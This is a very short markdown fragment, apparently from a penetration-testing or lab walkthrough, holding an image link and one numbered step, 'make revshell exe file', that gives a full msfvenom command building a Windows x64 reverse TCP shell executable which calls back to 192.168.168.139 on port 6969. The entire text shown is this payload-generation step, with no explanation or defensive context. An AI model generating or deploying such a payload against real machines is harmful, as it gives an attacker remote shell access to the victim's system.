 1. make revshell exe file
   
   `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.168.139 LPORT=6969 -f exe > weinrev.exe `
